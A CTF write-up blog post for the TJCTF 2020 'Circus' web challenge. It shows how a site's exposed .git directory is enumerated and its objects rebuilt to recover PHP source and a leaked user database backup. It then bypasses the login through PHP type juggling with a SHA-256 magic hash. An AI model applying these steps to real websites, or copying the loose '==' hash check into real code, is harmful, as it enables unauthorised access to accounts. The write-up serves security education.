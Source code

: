 ```yaml
---
title: TJCTF - Circus challenge writeup
date: 2020-05-27 17:30:00 +0530
categories: [Technical, CTF-writeups]
tags: [ctf, writeups, git-security, php-type-juggling, magic-hashes]
---
```


![TJCTF 2020](/assets/img/posts/tjctf-gamerw-writeup/TJCTF.png "TJCTF2020")

This is a writeup for the `Circus` challenge in the recently held [TJCTF 2020](https://tjctf.org/).

![Challenge](/assets/img/posts/tjctf-circus-writeup/chall-circus.png "Circus")

After staring at the website for some time and going through its source code, I didn't find anything of significance. So I decided to use the [`dirsearch`](https://github.com/maurosoria/dirsearch) command line tool to look for files and directories in the website.

```bash
$ python dirsearch.py -b -u https://circus.tjctf.org/ -e *
```

The tool gave me some interesting results - 

![dirseach result](/assets/img/posts/tjctf-circus-writeup/dirsearch-result.png "dirsearch results")

As you can see from the image, the website had hosted its version control repository (`.git/`) in production. This is bad and can be used to gain access to the website's source code.

Please refer this [post](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/) for more detailed information on this.

Heading to `https://circus.tjctf.org/.git/refs/heads/master` gave us the commit hash `4879af041fba89b387e751a94bfe5dbee4bd7528`.

We use this to download the commit-object from the server by going to `https://circus.tjctf.org/.git/objects/48/79af041fba89b387e751a94bfe5dbee4bd7528`

I then created a local git repository and pasted the commit-object file in the `.git/objects/48` folder.

> **Note**: Here 48 is the first 2 bytes of the commit hash

```bash
$ mkdir cirucs
$ cd circus/
$ git init
$ mkdir .git/objects/48/
$ cp ~/Downloads/79af041fba89b387e751a94bfe5dbee4bd7528 ~/Downloads/circus/.git/objects/48/
```

Now we can analyse it further:

This tells us that the downloaded object is a commit:

```bash
$ git cat-file -t 4879af041fba89b387e751a94bfe5dbee4bd7528
commit
```

Getting further details:

```bash
$ git cat-file -p 4879af041fba89b387e751a94bfe5dbee4bd7528
tree 2f16dc45649e2748d2345f01b076fb6efae38f47
parent e2731f0ea54feb0a892fd5377a932053bb3baf61
author kfb <kfb@circus.tjctf.org> 1584979440 -0700
committer kfb <kfb@circus.tjctf.org> 1584979440 -0700

oops
```

We next download the tree object and analyse it in the same way. Go to `https://circus.tjctf.org/.git/objects/2f/16dc45649e2748d2345f01b076fb6efae38f47` to download the object and paste it in the `circus/.git/objects/2f/` folder.

Analysing the tree object:

```bash
$ git cat-file -p 2f16dc45649e2748d2345f01b076fb6efae38f47
100644 blob 0c2dcae6b4a2df8b0e36f9764c82e67f63b6ffa5	.gitignore
040000 tree efb43702c73bf9b9ed4bdc67ab139e8431fff12e	css
040000 tree af6d89e6ba71c3d121bb931e11d2d0ca52f4bcb3	img
100644 blob ad9052a7a90a878dcbb120089eb96739149511ac	index.php
040000 tree 4604bf31e608e07a063c11888dc3092cf77ccfff	js
040000 tree 8a0a57c3988c44b23e079e4cccf603bc58d911b8	lib
100644 blob ef808b5889ece41f90c38567d53b7e8e13c0a489	logout.php
```

We now download the `index.php` blob (follow the same step as above) and cat its contents.

We extract the following PHP code from the file:

```php
<?php 
	require __DIR__ . "/../include/flag.php";

	session_start();
	$error = "";
	mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
	if (isset($_POST["username"]) && isset($_POST["password"]))
	{
		try
		{
			$mysqli = new mysqli(NULL, NULL, NULL, "circus");
			$stmt = $mysqli->prepare("SELECT * FROM users WHERE username = ?");
			$stmt->bind_param("s", $_POST["username"]);
			$stmt->execute();
			$res = $stmt->get_result();
			if ($res->num_rows === 0)
			{
				$error = "Invalid credentials";
			}
			else
			{
				$row = $res->fetch_assoc();
				if (hash('sha256', $_POST["password"]) == $row["password"])
				{
					$_SESSION["id"] = $row["id"];
					$_SESSION["name"] = $row["fname"];
				}
			}
		}
		catch (Exception $e)
		{
			$error = "Error signing in";
		}
	}
?>
```

From `https://circus.tjctf.org/.git/logs/refs/heads/master` we can see that the commit hash we analysed was the second commit. The commit message "oops" also hints that the developer might have pushed some sensitive content in his first commit which he corrected in the second commit. But the sensitive content will still be stored in the git version history.

Read this [blog post](https://www.honeybadger.io/blog/git-security/) for more.

We saw that the second commit contained a new `.gitignore` file. So lets print the contents of that.

```bash
$ git cat-file -p 0c2dcae6b4a2df8b0e36f9764c82e67f63b6ffa5
backup.sh
backups
```

We can see that the developer must have committed the `backup.sh` file before (1st commit) which he has now put in the `.gitnore` file now.

Going to `https://circus.tjctf.org/backup.sh` , we are pointed to `https://circus.tjctf.org/backups/users.sql` which gives us the backup of the database containing usernames and their password hashes.

The password verification logic in the PHP code uses the "==" operator and we have the SHA-256 password hashes of the users, so it was safe to assume that the website may be susceptible to `Type Juggling attack through magic hash comparison`.

Refer this [blog post](https://www.whitehatsec.com/blog/magic-hashes/) for more about magic hashes.

I searched the SQL file for a password hash which fit the magic hash format of `0+e[0-9]+` and was able to find a user who fit the bill:

```
(773,'Andon1956','0e75759761935916943951971647195794671357976597614357959761597165','Rosie','Kelly')
```

All that I had to do now, was use the username `Andon1956` along with a matching SHA-256 magic hash.

[This](https://github.com/spaze/hashes/blob/master/sha256.md) GitHub repository holds a list of SHA-256 magic hashes.

The flag was displayed on screen after logging in.

![Challenge Flag](/assets/img/posts/tjctf-circus-writeup/chall-flag.png "Circus Flag")

I would like to thank [Nimisha Dughyala](https://www.linkedin.com/in/nimisha-dughyala/) for guiding me in solving this challenge. It wouldn't have been possible without her :)